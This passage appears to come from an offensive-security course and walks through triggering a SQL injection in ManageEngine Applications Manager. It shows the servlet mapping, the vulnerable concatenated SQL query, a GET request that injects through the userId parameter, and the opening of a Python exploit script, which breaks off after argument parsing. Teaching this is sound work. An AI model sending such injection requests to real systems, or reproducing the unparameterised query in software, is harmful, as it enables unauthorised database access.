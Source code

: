 ![Figure 13: Using psql.exe to interact with the database](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/7778031deb92d473adacb13a9830c172-Picture28.png)

Figure 13: Using psql.exe to interact with the database

### 3.2.5. Triggering the Vulnerability

When available, analyzing the source code greatly accelerates vulnerability discovery and our understanding of any possible restrictions. Nevertheless, at some point we must trigger the vulnerability to make further progress. In order to do so, we need a URL to start crafting our request.

From the servlet mapping initially discovered in the web.xml file, we know that the URL we need to use to reach the vulnerable code is as follows:

```
<servlet-mapping>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>
```

> Listing 8 - The servlet mapping

```
<servlet>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
</servlet>
```

> Listing 9 - The mapping location

Remember that during our analysis, we established that to reach the vulnerable SQL query, we only require two parameters in our request, namely _ForMasRange_ and _userId_.

Putting all the information together, our initial request will look like this:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1; HTTP/1.1
Host: manageengine:8443
```

> Listing 10 - Triggering the vulnerability

Notice that the request above performs a basic injection using a semicolon. The reason for this is because we already know what the vulnerable query looks like (Listing 11) and we know that it does not contain any quoted strings. Therefore, trying to simply terminate the query with a semicolon at the injection point should work well.

```
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE
where USERID=" + userId + " and RESOURCEID >" + stRange + " and
RESOURCEID < " + endRange;
```

> Listing 11 - The SQL query taken from the code. Notice how there are no quotes that need to be escaped.

```
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
	if len(sys.argv) != 2:
		print "(+) usage %s <target>" % sys.argv[0]
		print "(+) eg: %s target" % sys.argv[0]
		sys.exit(1)
	
	t = sys.argv[1]
```